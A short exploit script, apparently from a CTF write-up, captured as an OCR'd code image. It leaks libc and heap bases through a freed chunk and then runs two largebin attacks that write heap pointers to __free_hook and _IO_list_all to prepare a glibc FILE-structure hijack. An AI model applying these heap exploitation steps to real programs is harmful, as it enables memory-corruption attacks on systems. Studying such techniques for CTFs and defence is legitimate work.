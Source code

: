 ```bash
#----- leak libc_base and heap_base
Change(1)
Add(0x430, 'A'*0x158) # A16

Change(2)
Add(0xf0, 'B'*0x48) # B7

Change(1)
Del(16)

Change(2)
Add(0x440, 'B'*0x158) # B8

Change(1)
Show(16)
ru('message is: ')
libc_base = uu64(rl()) - 0x1ebfe0
lg('libc_base')

Edit(16, 'A'*0xf+'\n')
Show(16)
ru('message is: '+'A'*0xf+'\n')
heap_base = uu64(rl()) - 0x13940
lg('heap_base')


#----- first largebin_attack
Edit(16, 2*p64(libc_base+0x1ebfe0) + '\n') # recover
Add(0x430, 'A'*0x158) # A17
Add(0x430, 'A'*0x158) # A18
Add(0x430, 'A'*0x158) # A19

Change(2)
Del(8)
Add(0x450, 'B'*0x168) # B9

Change(1)
Del(17)

Change(2)
free_hook = libc_base + libc.sym['__free_hook']
Edit(8, p64(0) + p64(free_hook-0x28) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C0 triger largebin_attack, write a heap addr to __free_hook-8

Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- second largebin_attack
Change(3)
Add(0x380, 'C'*0x118) # C1

Change(1)
Del(19)

Change(2)
IO_list_all = libc_base + libc.sym['_IO_list_all']
Edit(8, p64(0) + p64(IO_list_all-0x20) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C2 triger largebin_attack, write a heap addr to _IO_list_all

```